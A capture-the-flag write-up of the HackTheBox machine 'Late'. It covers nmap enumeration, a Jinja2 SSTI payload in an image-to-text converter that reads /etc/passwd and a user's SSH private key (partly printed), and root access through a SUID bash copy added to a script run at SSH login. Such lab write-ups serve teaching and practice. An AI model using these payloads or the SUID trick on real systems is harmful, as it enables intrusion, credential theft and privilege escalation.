 ```yaml
---
title: "HackTheBox - Late"
author: Nasrallah
description: ""
date: 2023-04-27 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, ssti, cronjob]
img_path: /assets/img/hackthebox/machines/late
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Late](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com). We find an image converter vulnerable to ssti so we exploit that to read private ssh key or even execute commands. After that we find a shell file that runs by root every ssh login, so we  modify the file to get root access.

![](0.png)

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for late.htb (10.10.11.156)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found 2 open ports, 22 running ssh and 80 is a nginx http web server.

## Web

Let's check the web page.

![](1.png)

It's a photo editing web site, scrolling to to bottom we find a link

![](2.png)

The link goes to `images.late.htb`, let's add that to `/etc/hosts` file and go there.

![](3.png)

Here we can convert an image to text.

I uploaded to screen shot above and got a text file called `results.txt` with the following:

```text
<p>Convert image to textunes

If you want to turn an image into a text document, you came to the right place.

Convert your image now!

Choose file Browse

</p>           
```

Since this converter uses `Flask`, let's see if it's vulnerable to SSTI.

We upload an image that has this text `\{\{7*7\}\}`, and if we get back 49 in the text file we can confirm the web site is vulnerable.

![](4.png)

```terminal
$ cat results.txt
<p>49
</p>
```

We got 49, the web site is vulnerable.

# **Foothold**

Let's read the `/etc/passwd/` file with this payload:

```python
\{\{ get\_flashed\_messages.\_\_globals\_\_.\_\_builtins\_\_.open("/etc/passwd").read() \}\}.
```

![](5.png)

```terminal
$ cat results.txt                                                                                                                                        
<p>root:x:0:0:root:/root:/bin/bash                                                                                                                            
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                                                                                                               
bin:x:2:2:bin:/bin:/usr/sbin/nologin                                                                                                                          
[...]
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash     <------------
rtkit:x:111:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
[...]

</p>                                                                                           
```

We found a user called `svc_acc`, let's see if we can find an ssh private key in the user's .ssh directory using this payload:

```python
\{\{ get\_flashed\_messages.\_\_globals\_\_.\_\_builtins\_\_.open("/home/svc_acc/.ssh/id_rsa").read() \}\}
```

![](6.png)

```terminal
$ cat results.txt                    
<p>-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
[...]
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----

</p>                                                                     
```

Great! We got it, now let's ssh to the box.

```terminal
$ ssh -i id_rsa svc_acc@late.htb
svc_acc@late:~$ id
uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
svc_acc@late:~$ 
```

# **Privilege Escalation**

Now we run `linpeas`

![](7.png)

We see that `/usr/local/sbin` directory is writable by us and there is a shell file there, let's check it out.

```terminal
svc_acc@late:/usr/local/sbin$ ls -la
total 12
drwxr-xr-x  2 svc_acc svc_acc 4096 May  4 11:50 .
drwxr-xr-x 10 root    root    4096 Aug  6  2020 ..
-rwxr-xr-x  1 svc_acc svc_acc  433 May  4 11:50 ssh-alert.sh
svc_acc@late:/usr/local/sbin$ cat ssh-alert.sh 
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

The first thing we notice is that we own the directory and the file. The second thing is the file has been modified in the past minute.

The shell file sends an email to root every time there is an ssh login.

To see what's happening, i'm gonna run `pspy64` and go to another window and make an ssh login.

![](8.png)

As we can see the shell file got executed when we logged in and after a little bit another cronjob run and changed to ownership of the file to `svc_acc`.

So let's add the following piece of code to `ssh-alert.sh` that's going to make a copy of /bin/bash and give it suid bit.

```terminal
cp /bin/bash /tmp/.bash && chmod +s /tmp/.bash
```

![](9.png)

The suid bash been created successfully and we got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).